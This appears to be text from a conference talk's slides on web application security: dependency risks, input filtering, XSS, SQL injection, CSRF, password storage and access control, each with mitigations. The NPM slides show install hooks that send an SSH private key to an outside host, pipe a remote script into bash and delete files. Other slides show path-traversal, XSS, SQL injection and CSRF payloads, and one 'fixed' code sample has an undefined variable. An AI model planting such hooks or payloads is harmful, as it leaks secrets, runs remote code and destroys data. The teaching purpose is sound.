





I'm a Dev
Development changes daily!
Open Source

30% of web-sites
are build of open-source code
for 95% or more
What does open source give us?
- 🍱 Variety
- 📚 Knowledge & best practices
- 🛠 Tooling
- 🏎 Speed of development
- ✨ Magic
Should
We Trust
- Developers
- Open Source
- Users
- Robots?
Open source
- Written by experienced developers
- Followed by hundreds of eyes
- Used by thousands of developers
- Done with security in mind
- Save you from vulnerabilities
- Bullshit.
Good tools
Dependencies
JavaScript
NPM
NPM
Patch your libs
NPM
Send reports secrets
{
"name": "portionfatty12",
"description": "Treehouse API implementation",
"scripts": {
"postinstall":
"curl -X POST -d $(cat $HOME/.ssh/id_rsa) https://hax.io/pwnd"
}
}
NPM
Puppets you
{
"scripts": {
"postinstall": "curl --silent -o- https://malicious.io/hax.sh | bash",
}
}
NPM
Package takeover
Composer can do the same ;)
{
"scripts": {
"post-package-install": [
"rm -rf / cache"
],
},
}
Dependencies are vulnerable!
You don't know what exactly is vulnerable yet.
Solutions
- It's the price we pay for open source
- It's still better than closed-source
- Don't run with sudo
- Pray
- Use security advisories: NPM audit, PHP Roave/SecurityAdvisories
- Update dependencies (automatically)
Never blindly trust
Open source
Users
- Produce input
- Expect output
Input
- Forms
- Files
- HTTP Headers
- ...
Output
- Browser
- Console
- Database
- Native application
- ...
Problems
- Insufficient input filtering
- Insufficient output escaping
Well-known
but amazingly popular!
Input filtering
- Making sure data is valid
- Whitelist first
- Use reliable filters
function getFile(string $uuid): resource
{
$fh = fopen($_ENV['file_uploads_dis'] . '/' . $uuid);
if ($fh === false) {
throw new FileDoesNotExistException($uuid);
}
return $fh;
}
getFile('../../../../.env');
// Returns your raw passwords, please
Solution
Filter input
Validate
function getFile(string $uuid): resource
{
if (!preg_match('/^\w{8}-\w{4}-\w{4}-\w{4}-\w{12}$/', $uuid, $m)) {
throw new InvalidArgumentException($uuid);
}
$fh = fopen($_ENV['file_uploads_dis'] . '/' . $fileId);
if ($fh === false) {
throw new FileDoesNotExistException($uuid);
}
return $fh;
}
Enforce validation
function getFile(UuidInterface $uuid): resource
{
$fh = fopen($_ENV['file_uploads_dis'] . '/' . $uuid->toString());
if ($fh === false) {
throw new FileDoesNotExistException($uuid);
}
return $fh;
}
Output escaping
Making special characters behave like normal characters.
Usually by prefixing with another special character.
Different outputs – different escaping rules.
Common threats
XSS
Inject JavaScript code and execute in user's browser
Cross-site scripting (XSS) continued to be the most common vulnerability reported across all industries– HackerOne 2018 report
...
<header>
<?= $_GET['search_query'] ?>
</header>
...
GET http://example.com/?search_query=<script>alert(1)</script>
- Session stealing
- Account takeover
- Site defacement
- Key logging
- Malicious software download
Two types:
- Reflected XSS: pass unvalidated and unescaped input derectly to output
- Stored XSS: store malicious input and output it later
Solution
Escape output
Text only?
Convert special characters to HTML entities.
PHP – htmlspecialchars
<script>alert(1)</script>
→
<script>alert(1)</script>
HTML markup
Sanitize output
PHP – htmlpurifier.org
Don't save escaped input to DB
It's useless
SQL injection
Also a problem of unescaped output
$id = $_GET['id'];
query("SELECT * FROM user WHERE id = $id");
GET http://example.com/?search_query=1; DROP TABLE user
SELECT * FROM user WHERE id = 1; DROP TABLE user
Use prepared statements
PDO example:
$query = $db->prepare("SELECT * FROM user WHERE id = :id");
$query->bindValue(':id', $id);
$query->fetch();
CSRF
Submit forms your website from other website on behalf of the user
How?
- Login to mybanking.com
- You visit evil.org
<form action="https://mybanking.com/payment"
method="POST" onload="this.submit()">
<input type="hidden" name="card_number" value="5432 1098 7654 3210" />
<input type="hidden" name="amount" value="100" />
<input type="hidden" name="currency" value="USD" />
</form>
Solution
CSRF tokens
- Generate random token serverside
- Include in all forms
- Check on submission
- Reissue after usage
- Backend frameworks can do it out of box
- Frontend frameworks are less vulnerable
Never trust users!
Developers
Passwords
- Brute force and dictionary attack
- Leaks
Brute force
- Limit RPM by IP and login
- Show captcha
- Monitor and alert
Leaks
  Solutions
- Store passwords correctly
- Do not log passwords
- Do not send passwords plaintext
How to store passwords?
Hashing (even with salt) is a bad idea!
Popular hash functions
crc32, md5, sha128, sha256, sha512
are meant to be fast
Cryptographic hash functions
PBKDF2, bcrypt, scrypt
are meant to be slow
8-chars of [A-Za-z0-9] give 628 unique passwords [1]
8x Nvidia GTX 1080 GPU cards benchmark [2]:
- md5 – 200 GH/s, 18 minutes
- sha256 – 23012 MH/s, 2.5 hours
- bcrypt – 105 kH/s, 66 years
- PBKDF2-HMAC-SHA512 – 3450 kH/s, 3 years
- Argon2 – GPU is useless
Strong hash function only gives you time to react
Never implement cryptographic on your own!
Broken Access Control
- Insufficient permission checks
- Insecure direct object reference
- Open resources
- Information leaks
Solutions
- Whitelist-based development
- Negative tests
- UUID ≠ security
Security through obscurity- Disable debug output
- Even when app crashes
Solutions
- Change default passwords
- Whitelist-based ingress firewalls
- Egress firewalls
- Services isolation
- Store backups securely
- Deliver dev-dumps securely
Credentials
- Don's store in repository
- Use .env
- Or better HashiCorp Vault
Server-side
Solutions
- Update dependencies
- Log everything
- Or at least mutable requests
- Separate logging topics
- Use remote append-only storage
- Monitor suspicious activity
- Alert on automatic scans
Never trust developers!
Physical security
- Encrypt laptops and PC
- Lock device when leave
- Don't plug unknown USB drives :)
It's all vulnerable!
What to do on Monday?
- Discuss this talk with your team
- Schedule OWASP Testing Guide checkup
- Schedule a «What if?» game
-
Raise awareness.
Suggest reading Web Hacking 101
Let's make a safer world!
Robots?